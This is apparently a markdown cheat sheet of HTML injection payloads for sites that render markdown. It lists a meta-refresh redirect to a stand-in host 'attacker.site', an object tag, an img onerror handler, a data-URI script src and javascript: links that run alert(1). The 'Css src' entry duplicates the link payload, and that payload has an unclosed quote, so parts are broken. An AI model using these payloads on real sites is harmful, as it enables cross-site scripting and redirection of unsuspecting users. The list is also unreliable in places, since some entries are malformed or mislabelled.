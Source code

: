 ## Redirect

### Meta <i> (useful for websites that supports only few markdown features) </i>
```html
<meta http-equiv="refresh" content='0; url=http://attacker.site/'>
```

### Object
```html
<object data="/path" type="text/html"></object>
```
<br>

## Execution

### Img
```html
<img src=x onerror="something();"/>
```

### Script src
```
<script src="data:\xD4\x8F,javascript:alert(1)">
```

### A Tag
```html
<a href="javascript:alert(1)>
```

### Css src
```html
<a href="javascript:alert(1)>
```
